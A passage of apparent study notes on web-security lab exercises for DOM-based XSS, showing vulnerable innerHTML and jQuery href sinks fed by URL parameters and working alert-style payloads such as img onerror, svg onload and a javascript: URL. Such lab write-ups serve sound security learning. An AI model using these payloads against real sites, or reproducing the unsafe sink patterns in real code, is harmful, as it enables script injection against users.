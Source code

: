 - Alternatively:

```html
"><svg onload=alert('Hello friend')>
```

#### Lab: DOM XSS in innerHTML sink using source location.search
- When you are using search bar pay attention that your check word appears used by JS:

```js
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```

- So as we can see it just injects what we provide into some span element:

```html
<span id="searchMessage">FUZZ</span>
```

- Lets try with the img thing:

```html
<img src=x onerror=alert('Hello friend')>
```
- Or svg thing:

```html
<svg onload=alert('Hello friend')>
```

- Both will work!

#### Lab: DOM XSS in jQuery anchor href attribute sink using location.search source
- Try to **inspect** all the links and check what are they used.
- For example the link `<a id="backLink">Back</a>` also used here:

```html
<script>
    $(function() {
        $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>
```
- And we can notice that there is a selector `$` which just grab a `#backlink` element which is selected from URL by element `returnPath` so maybe we could manipulate this URL element and instead of the `/` we could try to use something like this:

```js
javascript:alert('Hello friend')
```
